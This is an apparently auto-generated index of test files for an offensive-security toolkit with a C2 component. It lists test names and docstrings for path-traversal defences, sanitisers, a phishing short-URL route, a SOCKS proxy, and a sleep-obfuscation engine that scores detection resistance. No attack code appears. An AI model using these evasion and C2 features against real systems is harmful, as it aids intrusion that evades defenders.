- `TestRoutePathValidator` (line 59) `class TestRoutePathValidator` - *Validate route path sanitization.*
- `TestTemplateNameValidator` (line 84) `class TestTemplateNameValidator` - *Validate Jinja2 template name sanitization.*
- `TestYamlFilenameValidator` (line 107) `class TestYamlFilenameValidator` - *Validate YAML filename sanitization.*
- `TestRequestDataValidator` (line 127) `class TestRequestDataValidator` - *Validate request data length constraints.*
- `TestAESKeyValidator` (line 151) `class TestAESKeyValidator` - *Validate AES key length enforcement.*
- `TestPasswordLengthValidator` (line 174) `class TestPasswordLengthValidator` - *Validate password minimum length enforcement.*
- `TestUploadSizeValidator` (line 192) `class TestUploadSizeValidator` - *Validate upload size constraints.*
- `TestFilePathWithinBaseValidator` (line 212) `class TestFilePathWithinBaseValidator` - *Validate path traversal resistance using Path.resolve().*
- `TestSecretKeyManager` (line 249) `class TestSecretKeyManager` - *Validate secret key generation and persistence.*
- `TestSafeFileService` (line 272) `class TestSafeFileService` - *Validate safe file operations with path traversal protection.*
- `TestAESKeyManager` (line 321) `class TestAESKeyManager` - *Validate AES key generation and validation.*
- `TestUploadSizeValidatorService` (line 345) `class TestUploadSizeValidatorService` - *Validate upload size service.*
- `TestSecureCommandQueuePath` (line 366) `class TestSecureCommandQueuePath` - *Validate command queue path construction against path traversal.

Contract: _secure_command_queue_path(client_id) in lazyc2.py must:
1. Return a path within ALLOWED_DIRECTORY for valid client ids.
2. Reject client ids that sanitise to empty.
3. Reject paths that resolve outside ALLOWED_DIRECTORY (symlink escape).
4. Accept alphanumeric + hyphen + underscore ids.*

**Functions:**
- `_build_command_queue_path` (line 32) `def _build_command_queue_path(client_id, base_dir)` - *Pure logic of _secure_command_queue_path for isolation testing.

Sanitises client_id, joins with base_dir, resolves via realpath, and
validates path confinement.

Args:
    client_id: Raw beacon id.
    base_dir: The ALLOWED_DIRECTORY base path.

Returns:
    The validated absolute real path.

Raises:
    ValueError: If the sanitised id is empty or the path escapes.*

**Methods:**
- `test_route_path_validation` (line 79) `def test_route_path_validation(self, route_path, expected_valid)`
- `test_template_name_validation` (line 102) `def test_template_name_validation(self, template_name, expected_valid)`
- `test_yaml_filename_validation` (line 122) `def test_yaml_filename_validation(self, filename, expected_valid)`
- `test_short_data_is_valid` (line 130) `def test_short_data_is_valid(self)`
- `test_exact_max_length_is_valid` (line 135) `def test_exact_max_length_is_valid(self)`
- `test_over_max_length_is_invalid` (line 140) `def test_over_max_length_is_invalid(self)`
- `test_non_string_is_invalid` (line 146) `def test_non_string_is_invalid(self)`
- `test_valid_32_byte_key` (line 154) `def test_valid_32_byte_key(self)`
- `test_invalid_16_byte_key` (line 160) `def test_invalid_16_byte_key(self)`
- `test_invalid_string_key` (line 165) `def test_invalid_string_key(self)`
- `test_empty_key_is_invalid` (line 169) `def test_empty_key_is_invalid(self)`
- `test_exact_minimum_length` (line 177) `def test_exact_minimum_length(self)`
- `test_below_minimum_length` (line 182) `def test_below_minimum_length(self)`
- `test_non_string_password` (line 187) `def test_non_string_password(self)`
- `test_none_content_length` (line 195) `def test_none_content_length(self)`
- `test_valid_size` (line 199) `def test_valid_size(self)`
- `test_exceeds_max` (line 203) `def test_exceeds_max(self)`
- `test_exact_max` (line 207) `def test_exact_max(self)`
- `test_normal_path_is_valid` (line 215) `def test_normal_path_is_valid(self, tmp_path)`
- `test_traversal_outside_base_is_invalid` (line 222) `def test_traversal_outside_base_is_invalid(self, tmp_path)`
- `test_traversal_with_dotdot_is_invalid` (line 231) `def test_traversal_with_dotdot_is_invalid(self, tmp_path)`
- `test_symlink_traversal_is_detected` (line 238) `def test_symlink_traversal_is_detected(self, tmp_path)`
- `test_generates_new_key_on_first_run` (line 252) `def test_generates_new_key_on_first_run(self, tmp_path)`
- `test_reuses_existing_key` (line 258) `def test_reuses_existing_key(self, tmp_path)`
- `test_key_file_has_restrictive_permissions` (line 264) `def test_key_file_has_restrictive_permissions(self, tmp_path)`
- `test_read_bytes_within_base` (line 275) `def test_read_bytes_within_base(self, tmp_path)`
- `test_read_bytes_traversal_raises` (line 284) `def test_read_bytes_traversal_raises(self, tmp_path)`
- `test_write_bytes_creates_file` (line 293) `def test_write_bytes_creates_file(self, tmp_path)`
- `test_exists_returns_true_for_valid_path` (line 300) `def test_exists_returns_true_for_valid_path(self, tmp_path)`
- `test_exists_returns_false_for_missing` (line 307) `def test_exists_returns_false_for_missing(self, tmp_path)`
- `test_exists_traversal_raises` (line 313) `def test_exists_traversal_raises(self, tmp_path)`
- `test_generates_new_key` (line 324) `def test_generates_new_key(self, tmp_path)`
- `test_reuses_existing_valid_key` (line 330) `def test_reuses_existing_valid_key(self, tmp_path)`
- `test_raises_on_invalid_existing_key` (line 337) `def test_raises_on_invalid_existing_key(self, tmp_path)`
- `test_valid_size_passes` (line 348) `def test_valid_size_passes(self)`
- `test_exact_max_passes` (line 352) `def test_exact_max_passes(self)`
- `test_exceeds_max_raises` (line 356) `def test_exceeds_max_raises(self)`
- `test_none_passes` (line 361) `def test_none_passes(self)`
- `test_valid_client_id_returns_path_in_base` (line 376) `def test_valid_client_id_returns_path_in_base(self, tmp_path)`
- `test_empty_after_sanitization_raises` (line 381) `def test_empty_after_sanitization_raises(self, tmp_path)`
- `test_symlink_escape_raises` (line 385) `def test_symlink_escape_raises(self, tmp_path)`
- `test_traversal_characters_are_stripped` (line 396) `def test_traversal_characters_are_stripped(self, tmp_path)`
- `test_alphanumeric_plus_hyphen_underscore_accepted` (line 404) `def test_alphanumeric_plus_hyphen_underscore_accepted(self, tmp_path)`
- `test_returns_valid_os_path` (line 410) `def test_returns_valid_os_path(self, tmp_path)`

#### `test_security_sanitizers.py`
**Path:** `tests/test_security_sanitizers.py`
**File Doc:** *Unit tests for :mod:`modules.security_sanitizers`.  Each test asserts a security invariant that the corresponding sanitizer guarantees. The suite is designed so a regression that re-introduces any of the CodeQL findings (#731, #745, #753, #754, #755, #756, #757) breaks an explicit, named test instead of a production endpoint.*

**Classes:**
- `TestSecurityConfig` (line 33) `class TestSecurityConfig` - *Verify configuration creation and override behaviour.*
- `TestHeaderValueSanitizer` (line 74) `class TestHeaderValueSanitizer` - *HTTP response-splitting guarantees (#745, #757).*
- `TestSessionPathResolver` (line 116) `class TestSessionPathResolver` - *Path-injection guarantees (#753).*
- `TestBindAddressResolver` (line 169) `class TestBindAddressResolver` - *Socket-binding guarantees (#754, #755).*
- `TestCommandRedactor` (line 201) `class TestCommandRedactor` - *Credential-leak guarantees (#756).*
- `TestOutputSanitizer` (line 251) `class TestOutputSanitizer` - *Information-exposure guarantees (#731).*
- `TestIntegrationFromPayloadFile` (line 311) `class TestIntegrationFromPayloadFile` - *End-to-end check that the module reads ``payload.json`` cleanly.*
- `Custom` (line 303) `class Custom`

**Functions:**
- `cfg` (line 28) `def cfg()` - *Return the default :class:`SecurityConfig` used by the suite.*
- `test_module_exports_are_complete` (line 333) `def test_module_exports_are_complete()` - *``__all__`` must list every public class and helper.*

**Methods:**
- `test_defaults_are_conservative` (line 36) `def test_defaults_are_conservative(self, cfg)` - *The shipped defaults must fail closed.*
- `test_from_payload_accepts_known_keys` (line 44) `def test_from_payload_accepts_known_keys(self)` - *Known string and int keys override the defaults.*
- `test_from_payload_drops_wrong_types` (line 56) `def test_from_payload_drops_wrong_types(self)` - *Type-mismatched values must not overwrite the defaults.*
- `test_build_default_config_handles_none` (line 67) `def test_build_default_config_handles_none(self)` - *``build_default_config`` accepts ``None`` and arbitrary types.*
- `test_strips_cr_lf_nul` (line 77) `def test_strips_cr_lf_nul(self, cfg)` - *CR, LF and NUL must never appear in the output.*
- `test_rejects_control_characters` (line 85) `def test_rejects_control_characters(self, cfg)` - *Non-printable bytes outside the allowlist are filtered.*
- `test_length_capped` (line 90) `def test_length_capped(self, cfg)` - *Output never exceeds ``max_header_value_length``.*
- `test_valid_name_accepts_rfc7230_tokens` (line 96) `def test_valid_name_accepts_rfc7230_tokens(self, cfg)` - *RFC 7230 ``token`` names must pass the allowlist.*
- `test_invalid_name_rejected` (line 102) `def test_invalid_name_rejected(self, cfg)` - *Names with whitespace or control bytes are rejected.*
- `test_constructor_rejects_non_config` (line 110) `def test_constructor_rejects_non_config(self)` - *``HeaderValueSanitizer`` requires a :class:`SecurityConfig`.*
- `test_rejects_parent_traversal` (line 119) `def test_rejects_parent_traversal(self, cfg, tmp_path)` - *``..`` segments must never resolve.*
- `test_rejects_absolute` (line 125) `def test_rejects_absolute(self, cfg, tmp_path)` - *Absolute paths and leading separators are rejected.*
- `test_rejects_null_byte` (line 131) `def test_rejects_null_byte(self, cfg, tmp_path)` - *NUL bytes in filenames are refused.*
- `test_rejects_too_many_segments` (line 136) `def test_rejects_too_many_segments(self, cfg, tmp_path)` - *Excessive segment counts are refused.*
- `test_resolves_valid_path` (line 142) `def test_resolves_valid_path(self, cfg, tmp_path)` - *A clean relative path resolves under the base directory.*
- `test_file_exists_false_on_invalid` (line 155) `def test_file_exists_false_on_invalid(self, cfg, tmp_path)` - *Validation failures surface as ``False`` rather than exceptions.*
- `test_constructor_rejects_bad_base` (line 161) `def test_constructor_rejects_bad_base(self, cfg)` - *Empty and non-string base directories are refused.*
- `test_falls_back_to_loopback` (line 172) `def test_falls_back_to_loopback(self, cfg)` - *No preferred address must yield the loopback.*
- `test_accepts_first_valid_preferred` (line 177) `def test_accepts_first_valid_preferred(self, cfg)` - *The first parseable IP literal wins.*
- `test_accepts_ipv6_literal` (line 182) `def test_accepts_ipv6_literal(self, cfg)` - *IPv6 literals are accepted.*
- `test_unspecified_requires_opt_in` (line 187) `def test_unspecified_requires_opt_in(self, cfg)` - *The unspecified address is only returned when allowed.*
- `test_constructor_rejects_non_config` (line 195) `def test_constructor_rejects_non_config(self)` - *``BindAddressResolver`` requires a :class:`SecurityConfig`.*
- `test_display_omits_real_credentials` (line 204) `def test_display_omits_real_credentials(self, cfg)` - *Real credentials must never appear in the display string.*
- `test_placeholder_username_is_visible` (line 218) `def test_placeholder_username_is_visible(self, cfg)` - *The placeholder marker is intentionally shown so operators
can tell when no credentials were available.*
- `test_executable_renders_substitutions` (line 230) `def test_executable_renders_substitutions(self, cfg)` - *Non-credential placeholders resolve correctly in both forms.*
- `test_rejects_non_string_template` (line 242) `def test_rejects_non_string_template(self, cfg)` - *``render`` must enforce string types on inputs.*
- `test_exception_is_replaced` (line 254) `def test_exception_is_replaced(self, cfg)` - *Exception instances yield the opaque placeholder.*
- `test_exception_nested_in_collection` (line 261) `def test_exception_nested_in_collection(self, cfg)` - *Exceptions inside lists and dicts are stripped recursively.*
- `test_recursion_is_bounded` (line 267) `def test_recursion_is_bounded(self, cfg)` - *Deeply nested structures yield the non-serialisable sentinel.*
- `test_breadth_is_bounded` (line 277) `def test_breadth_is_bounded(self, cfg)` - *Collections are truncated to the configured cap.*
- `test_passes_through_scalars` (line 285) `def test_passes_through_scalars(self, cfg)` - *Primitive types are returned unchanged.*
- `test_decodes_bytes` (line 294) `def test_decodes_bytes(self, cfg)` - *Bytes are decoded with replacement for invalid sequences.*
- `test_unknown_objects_become_sentinel` (line 300) `def test_unknown_objects_become_sentinel(self, cfg)` - *Arbitrary objects are not stringified - they become the sentinel.*
- `test_real_payload_file_builds_config` (line 314) `def test_real_payload_file_builds_config(self)` - *The bundled ``payload.json`` must produce a valid configuration.*
- `__str__` (line 304) `def __str__(self)`

#### `test_session_ops_command_set.py`
**Path:** `tests/test_session_ops_command_set.py`
**File Doc:** *Session ops command set extraction tests.  SDD contract for the session/state cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/session_ops.py``.  Stage A (pending): the new ``SessionOpsCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.*

**Classes:**
- `SessionOpsSuiteConfig` (line 38) `class SessionOpsSuiteConfig` - *Centralised constants for the session ops extraction suite.*

**Functions:**
- `_add_repo_root_to_syspath` (line 32) `def _add_repo_root_to_syspath()`
- `_methods_of` (line 82) `def _methods_of(path, class_name)`
- `test_target_is_active_command_set` (line 94) `def test_target_is_active_command_set()`
- `test_target_exposes_full_session_cluster` (line 103) `def test_target_exposes_full_session_cluster()`
- `test_target_phase_metadata` (line 110) `def test_target_phase_metadata()`
- `test_source_no_longer_defines_cluster` (line 116) `def test_source_no_longer_defines_cluster()`
- `test_registry_registers_target` (line 122) `def test_registry_registers_target()`
- `test_no_command_collisions_with_source` (line 129) `def test_no_command_collisions_with_source()`

#### `test_sessions_browser.py`
**Path:** `tests/test_sessions_browser.py`
**File Doc:** *Tests for cli/sessions_browser.py.  Exercises the data layer (index + preview + filter) using a temporary ``sessions/`` directory fixture. The Textual app is never instantiated.*

**Functions:**
- `_populate` (line 24) `def _populate(tmp_path)`
- `test_index_groups_known_files` (line 34) `def test_index_groups_known_files(tmp_path)` - *Known filenames land in the matching categories.*
- `test_index_other_bucket_contains_unmatched_files` (line 47) `def test_index_other_bucket_contains_unmatched_files(tmp_path)` - *Files not matched by any category fall into ``other``.*
- `test_preview_returns_text_for_text_files` (line 56) `def test_preview_returns_text_for_text_files(tmp_path)` - *Text files are returned verbatim, truncated to the byte cap.*
- `test_preview_flags_binary_files` (line 64) `def test_preview_flags_binary_files(tmp_path)` - *Binary files return the configured indicator instead of garbled bytes.*
- `test_preview_rejects_path_traversal` (line 71) `def test_preview_rejects_path_traversal(tmp_path)` - *Paths that escape the root return an empty string.*
- `test_state_filter_keeps_matching_entries` (line 79) `def test_state_filter_keeps_matching_entries(tmp_path)` - *The filter query narrows every category by substring.*
- `test_category_label_for_known_identifier` (line 89) `def test_category_label_for_known_identifier(tmp_path)` - *The label resolver returns the configured human name.*

#### `test_shell_semantics.py`
**Path:** `tests/test_shell_semantics.py`
**File Doc:** *Contract tests for shell-semantics detection and colored child output.  The 2026 security pass replaced ``shell=True`` with ``shlex.split`` in the generic command runners, which silently broke shell syntax (``;``, ``&&``, globs, tilde, command substitution). These tests pin the detection helper and the color-preserving environment so a future refactor cannot repeat the regression.*

**Classes:**
- `_FakePopen` (line 75) `class _FakePopen`

**Functions:**
- `test_needs_shell_detects_control_and_expansion` (line 17) `def test_needs_shell_detects_control_and_expansion()` - *Chaining, pipes, substitutions, globs, tilde and redirection need a shell.*
- `test_needs_shell_accepts_plain_argv` (line 32) `def test_needs_shell_accepts_plain_argv()` - *A program with plain arguments runs without a shell.*
- `test_run_command_interprets_semicolon` (line 38) `def test_run_command_interprets_semicolon()` - *run_command executes two chained commands, not a single argv token.*
- `test_run_command_expands_tilde_and_glob` (line 45) `def test_run_command_expands_tilde_and_glob(tmp_path, monkeypatch)` - *run_command lets the shell expand tilde and glob patterns.*
- `test_terminal_env_forces_color` (line 53) `def test_terminal_env_forces_color(monkeypatch)` - *CLICOLOR_FORCE and FORCE_COLOR are set so piped tools keep color.*
- `test_terminal_env_respects_no_color` (line 61) `def test_terminal_env_respects_no_color(monkeypatch)` - *An explicit NO_COLOR wins over the forced color variables.*
- `test_linpeas_http_server_is_detached` (line 69) `def test_linpeas_http_server_is_detached(monkeypatch)` - *The linpeas HTTP server must start detached, not with a trailing ampersand.*
- `test_safe_runner_interprets_shell_syntax` (line 87) `def test_safe_runner_interprets_shell_syntax()` - *SafeRunner.run_shell must let the shell interpret chaining.*

**Methods:**
- `__init__` (line 76) `def __init__(self, argv)`

#### `test_shellsys_command_set.py`
**Path:** `tests/test_shellsys_command_set.py`
**File Doc:** *Shell/sys command set extraction tests.  SDD contract for the shell/sys cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/shellsys.py``.  Stage A (pending): the new ``ShellSysCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.*

**Classes:**
- `ShellsysSuiteConfig` (line 38) `class ShellsysSuiteConfig` - *Centralised constants for the shellsys extraction suite.*

**Functions:**
- `_add_repo_root_to_syspath` (line 32) `def _add_repo_root_to_syspath()`
- `_methods_of` (line 61) `def _methods_of(path, class_name)`
- `test_target_is_active_command_set` (line 73) `def test_target_is_active_command_set()`
- `test_target_exposes_full_shellsys_cluster` (line 82) `def test_target_exposes_full_shellsys_cluster()`
- `test_target_phase_metadata` (line 89) `def test_target_phase_metadata()`
- `test_source_no_longer_defines_cluster` (line 95) `def test_source_no_longer_defines_cluster()`
- `test_registry_registers_target` (line 101) `def test_registry_registers_target()`
- `test_no_command_collisions_with_source` (line 108) `def test_no_command_collisions_with_source()`

#### `test_short_url_file_containment.py`
**Path:** `tests/test_short_url_file_containment.py`
**File Doc:** *Containment contract for short-URL file serving.  SDD contract: ``resolve_contained_file_path`` accepts a ``file://`` URL or a bare filesystem path and returns the canonical path only when it stays within the sessions base directory. Anything else (remote URLs, traversal, symlink escape, absolute paths outside the base) returns ``None`` so the ``/<short_url>`` route fails closed with 404 instead of disclosing arbitrary local files.*

**Classes:**
- `TestContainedPaths` (line 36) `class TestContainedPaths`
- `TestRejectedPaths` (line 51) `class TestRejectedPaths`
- `TestRouteStatusContract` (line 78) `class TestRouteStatusContract` - *``redirect_to_file`` must let ``abort()`` propagate as HTTP status.

A bare ``except Exception`` swallows ``abort(404)`` and turns it into
500, so victims and operators cannot distinguish dead links from
server errors. The route must re-raise ``HTTPException``.*
- `TestBlueprintRouteContainment` (line 105) `class TestBlueprintRouteContainment` - *The phishing blueprint ``/<short_url>`` route serves the same
registry as the monolith route, so it must enforce the same
containment: resolve through ``resolve_contained_file_path`` and
never serve a raw ``abspath`` of registry input.*

**Functions:**
- `sessions_dir` (line 26) `def sessions_dir(tmp_path, monkeypatch)`

**Methods:**
- `test_bare_relative_inside_base` (line 37) `def test_bare_relative_inside_base(self, sessions_dir)`
- `test_absolute_inside_base` (line 41) `def test_absolute_inside_base(self, sessions_dir)`
- `test_file_scheme_inside_base` (line 45) `def test_file_scheme_inside_base(self, sessions_dir)`
- `test_remote_url_rejected` (line 52) `def test_remote_url_rejected(self, sessions_dir)`
- `test_absolute_outside_rejected` (line 55) `def test_absolute_outside_rejected(self, sessions_dir)`
- `test_file_scheme_outside_rejected` (line 58) `def test_file_scheme_outside_rejected(self, sessions_dir)`
- `test_traversal_rejected` (line 61) `def test_traversal_rejected(self, sessions_dir)`
- `test_symlink_escape_rejected` (line 64) `def test_symlink_escape_rejected(self, sessions_dir, tmp_path)`
- `test_empty_rejected` (line 74) `def test_empty_rejected(self, sessions_dir)`
- `test_abort_propagates` (line 86) `def test_abort_propagates(self)`
- `test_blueprint_redirect_uses_contained_resolver` (line 112) `def test_blueprint_redirect_uses_contained_resolver(self)`

#### `test_single_implementation.py`
**Path:** `tests/test_single_implementation.py`
**File Doc:** *Single-implementation rule for extracted helpers.  SDD contract: ``utils.*`` holds the live implementations used by the CLI/C2. The divergent copies that a past extraction left behind in ``core/parsers`` and ``core/credentials`` had zero callers and trapped future imports into the wrong behavior, so they were removed. Only ``strip_ansi`` (imported by ``utils`` and the C2 bots) stays in ``core/parsers``. This test fails the build if the dead fork grows back.*

**Classes:**
- `TestDeadForkRemoved` (line 54) `class TestDeadForkRemoved`

**Methods:**
- `test_no_divergent_copies_in_core_parsers` (line 55) `def test_no_divergent_copies_in_core_parsers(self)`
- `test_no_divergent_copies_in_core_namespace` (line 59) `def test_no_divergent_copies_in_core_namespace(self)`
- `test_shared_kernel_still_available` (line 63) `def test_shared_kernel_still_available(self)`
- `test_live_utils_implementations_intact` (line 68) `def test_live_utils_implementations_intact(self)`

#### `test_sleep_obfuscation.py`
**Path:** `tests/test_sleep_obfuscation.py`
**File Doc:** *Tests for modules/sleep_obfuscation.py — SleepTechnique, SleepObfuscationConfig, SleepTechniqueCatalog, SleepObfuscationEngine, SleepTechniqueValidator.  Covers: - SleepTechnique dataclass construction and immutability - SleepObfuscationConfig serialization roundtrip - SleepTechniqueCatalog registration, retrieval, listing - SleepTechniqueCatalog platform filtering - SleepObfuscationEngine select/configure/validate/recommend - SleepObfuscationEngine detection_resistance computation - SleepObfuscationEngine serialization roundtrip - SleepTechniqueValidator edge cases - Default catalog composition - OsPlatform and TechniqueRisk enum values*

**Classes:**
- `TestSleepTechnique` (line 33) `class TestSleepTechnique`
- `TestSleepObfuscationConfig` (line 71) `class TestSleepObfuscationConfig`
- `TestSleepTechniqueCatalog` (line 114) `class TestSleepTechniqueCatalog`
- `TestSleepTechniqueValidator` (line 164) `class TestSleepTechniqueValidator`
- `TestSleepObfuscationEngine` (line 212) `class TestSleepObfuscationEngine`
- `TestBedEnumValues` (line 307) `class TestBedEnumValues`

**Methods:**
- `test_construction_and_properties` (line 34) `def test_construction_and_properties(self)`
- `test_defaults` (line 48) `def test_defaults(self)`
- `test_immutability` (line 60) `def test_immutability(self)`
- `test_default_construction` (line 72) `def test_default_construction(self)`
- `test_serialization_roundtrip` (line 79) `def test_serialization_roundtrip(self)`
- `test_from_dict_empty` (line 102) `def test_from_dict_empty(self)`
- `test_from_dict_partial` (line 107) `def test_from_dict_partial(self)`
- `test_default_catalog_has_techniques` (line 115) `def test_default_catalog_has_techniques(self)`
- `test_register_and_get` (line 120) `def test_register_and_get(self)`
- `test_get_missing_raises_keyerror` (line 131) `def test_get_missing_raises_keyerror(self)`
- `test_list_all_sorted_by_resistance` (line 136) `def test_list_all_sorted_by_resistance(self)`
- `test_list_by_platform_windows` (line 142) `def test_list_by_platform_windows(self)`
- `test_list_by_platform_linux` (line 149) `def test_list_by_platform_linux(self)`
- `test_list_names` (line 156) `def test_list_names(self)`
- `test_valid_config_passes` (line 165) `def test_valid_config_passes(self)`
- `test_ekko_requires_rop_gadgets` (line 173) `def test_ekko_requires_rop_gadgets(self)`
- `test_excessive_rop_gadget_count` (line 181) `def test_excessive_rop_gadget_count(self)`
- `test_negative_sleep_delay` (line 189) `def test_negative_sleep_delay(self)`
- `test_excessive_sleep_delay` (line 197) `def test_excessive_sleep_delay(self)`
- `test_validate_config_enabled_without_name` (line 205) `def test_validate_config_enabled_without_name(self)`
- `test_default_engine` (line 213) `def test_default_engine(self)`
- `test_select_existing_technique` (line 219) `def test_select_existing_technique(self)`
- `test_select_missing_technique` (line 225) `def test_select_missing_technique(self)`
- `test_configure_updates_config` (line 230) `def test_configure_updates_config(self)`
- `test_configure_without_overrides` (line 239) `def test_configure_without_overrides(self)`
- `test_validate_valid_config` (line 246) `def test_validate_valid_config(self)`
- `test_validate_unknown_technique` (line 251) `def test_validate_unknown_technique(self)`
- `test_recommend_windows` (line 257) `def test_recommend_windows(self)`
- `test_recommend_linux` (line 263) `def test_recommend_linux(self)`
- `test_to_dict` (line 270) `def test_to_dict(self)`
- `test_from_dict_roundtrip` (line 278) `def test_from_dict_roundtrip(self)`
- `test_from_dict_empty` (line 288) `def test_from_dict_empty(self)`
- `test_custom_catalog` (line 293) `def test_custom_catalog(self)`
- `test_os_platform_values` (line 308) `def test_os_platform_values(self)`
- `test_technique_risk_values` (line 312) `def test_technique_risk_values(self)`

#### `test_socks_proxy.py`
**Path:** `tests/test_socks_proxy.py`
**File Doc:** *Tests for modules/socks_proxy.py — SocksProxyConfig, SocksSession, SocksValidator, SocksProxyEngine, SocksAuthMethod, SocksCommand, SocksAddressType, SocksReply.  Covers: - SocksProxyConfig construction and serialization roundtrip - SocksSession byte counting and elapsed time - SocksValidator config validation edge cases - SocksValidator request validation with access control - SocksProxyEngine session lifecycle (create, track, expire) - SocksProxyEngine build_spec and validation - SocksProxyEngine from_dict and from_payload factories - SocksReply enum messages - Enum value assertions*

**Classes:**
- `TestSocksProxyConfig` (line 33) `class TestSocksProxyConfig`
- `TestSocksSession` (line 84) `class TestSocksSession`
- `TestSocksValidator` (line 119) `class TestSocksValidator`
- `TestSocksProxyEngine` (line 247) `class TestSocksProxyEngine`
- `TestSocksReply` (line 359) `class TestSocksReply`
- `TestSocksEnums` (line 373) `class TestSocksEnums`

**Methods:**
- `test_default_construction` (line 34) `def test_default_construction(self)`
- `test_serialization_roundtrip` (line 42) `def test_serialization_roundtrip(self)`
- `test_from_dict_empty` (line 73) `def test_from_dict_empty(self)`
- `test_from_dict_unknown_auth_method_handled` (line 78) `def test_from_dict_unknown_auth_method_handled(self)`
- `test_construction_and_defaults` (line 85) `def test_construction_and_defaults(self)`
- `test_byte_counters` (line 97) `def test_byte_counters(self)`
- `test_to_dict` (line 104) `def test_to_dict(self)`
- `test_elapsed_seconds_with_zero_timestamp` (line 113) `def test_elapsed_seconds_with_zero_timestamp(self)`
- `test_valid_config_passes` (line 120) `def test_valid_config_passes(self)`
- `test_invalid_bind_address` (line 126) `def test_invalid_bind_address(self)`
- `test_invalid_bind_port` (line 132) `def test_invalid_bind_port(self)`
- `test_max_connections_zero` (line 138) `def test_max_connections_zero(self)`
- `test_session_timeout_too_low` (line 144) `def test_session_timeout_too_low(self)`
- `test_session_timeout_too_high` (line 150) `def test_session_timeout_too_high(self)`
- `test_negative_bandwidth` (line 156) `def test_negative_bandwidth(self)`
- `test_username_password_without_credentials` (line 162) `def test_username_password_without_credentials(self)`
- `test_no_auth_methods` (line 172) `def test_no_auth_methods(self)`
- `test_invalid_allowed_ports` (line 178) `def test_invalid_allowed_ports(self)`
- `test_port_in_both_lists` (line 184) `def test_port_in_both_lists(self)`
- `test_validate_request_valid_connect` (line 190) `def test_validate_request_valid_connect(self)`
- `test_validate_request_unsupported_command` (line 201) `def test_validate_request_unsupported_command(self)`
- `test_validate_request_unsupported_address_type` (line 212) `def test_validate_request_unsupported_address_type(self)`
- `test_validate_request_invalid_port` (line 223) `def test_validate_request_invalid_port(self)`
- `test_validate_request_denied_port_ac` (line 233) `def test_validate_request_denied_port_ac(self, tmp_path)`
- `test_default_engine` (line 248) `def test_default_engine(self)`
- `test_build_spec` (line 253) `def test_build_spec(self)`
- `test_create_session` (line 260) `def test_create_session(self)`
- `test_remove_session` (line 267) `def test_remove_session(self)`
- `test_remove_nonexistent_session` (line 273) `def test_remove_nonexistent_session(self)`
- `test_get_session` (line 277) `def test_get_session(self)`
- `test_get_nonexistent_session` (line 284) `def test_get_nonexistent_session(self)`
- `test_add_bytes` (line 288) `def test_add_bytes(self)`
- `test_add_bytes_to_nonexistent` (line 296) `def test_add_bytes_to_nonexistent(self)`
- `test_max_connections_limit` (line 300) `def test_max_connections_limit(self)`
- `test_cleanup_expired` (line 309) `def test_cleanup_expired(self)`
- `test_list_sessions` (line 317) `def test_list_sessions(self)`
- `test_from_dict` (line 326) `def test_from_dict(self)`
- `test_from_payload` (line 337) `def test_from_payload(self)`
- `test_from_payload_empty` (line 348) `def test_from_payload_empty(self)`
- `test_validate_custom_config` (line 352) `def test_validate_custom_config(self)`
- `test_succeeded_message` (line 360) `def test_succeeded_message(self)`
- `test_general_failure_message` (line 363) `def test_general_failure_message(self)`
- `test_unknown_code_message` (line 366) `def test_unknown_code_message(self)`
- `test_auth_method_values` (line 374) `def test_auth_method_values(self)`
- `test_command_values` (line 379) `def test_command_values(self)`
- `test_address_type_values` (line 384) `def test_address_type_values(self)`

#### `test_status_bar_operators.py`
**Path:** `tests/test_status_bar_operators.py`
**File Doc:** *Tests for the operator-presence segment of cli/status_bar.py.  Verifies the new :class:`CollabPresenceSource`, the optional fifth ``operators`` slot of :class:`StatusContext`, the auto-format switch in the renderer, and the toggle-by-payload behaviour of :func:`build_default_manager`.*

**Functions:**
- `_write_operators` (line 28) `def _write_operators(tmp_path, records)`
- `test_collab_presence_zero_when_file_missing` (line 33) `def test_collab_presence_zero_when_file_missing(tmp_path)` - *An absent operators file yields the configured fallback string.*
- `test_collab_presence_counts_active_operators` (line 41) `def test_collab_presence_counts_active_operators(tmp_path)` - *Operators marked active and within the stale window are counted.*
- `test_renderer_uses_default_format_when_operators_empty` (line 59) `def test_renderer_uses_default_format_when_operators_empty()` - *An empty ``operators`` segment preserves the historical layout.*
- `test_renderer_switches_to_ops_format_when_present` (line 70) `def test_renderer_switches_to_ops_format_when_present()` - *A non-empty ``operators`` value triggers the alternate format.*
- `test_build_default_manager_skips_operators_by_default` (line 86) `def test_build_default_manager_skips_operators_by_default(tmp_path)` - *The fifth source is opt-in via ``enable_operator_presence``.*
- `test_build_default_manager_wires_operators_when_enabled` (line 92) `def test_build_default_manager_wires_operators_when_enabled(tmp_path)` - *The flag opts into the additional source.*
- `test_render_prompt_uses_default_theme_when_unspecified` (line 99) `def test_render_prompt_uses_default_theme_when_unspecified(tmp_path)` - *Without ``tui_theme`` the prompt carries the default theme colour.*
- `test_render_prompt_switches_colour_with_tui_theme` (line 107) `def test_render_prompt_switches_colour_with_tui_theme(tmp_path)` - *Switching ``tui_theme`` changes the ANSI prefix in the next render.*

#### `test_structured_logging.py`
**Path:** `tests/test_structured_logging.py`
**File Doc:** *Tests for ``core.logging`` — structured JSON-lines logger.*

**Classes:**
- `TestStructuredLogConfig` (line 13) `class TestStructuredLogConfig` - *Behaviour of StructuredLogConfig.*
- `TestJsonLineFormatter` (line 47) `class TestJsonLineFormatter` - *Behaviour of _JsonLineFormatter.*
- `TestStructuredLogger` (line 122) `class TestStructuredLogger` - *Behaviour of StructuredLogger.*
- `TestGetLogger` (line 144) `class TestGetLogger` - *Behaviour of get_logger and install_json_handler.*
- `TestReconfigure` (line 193) `class TestReconfigure` - *Behaviour of reconfigure.*
- `TestInstallJsonHandler` (line 220) `class TestInstallJsonHandler` - *Contract: install_json_handler preserves pre-existing handlers.*

**Methods:**
- `test_defaults_are_production_ready` (line 16) `def test_defaults_are_production_ready(self)`
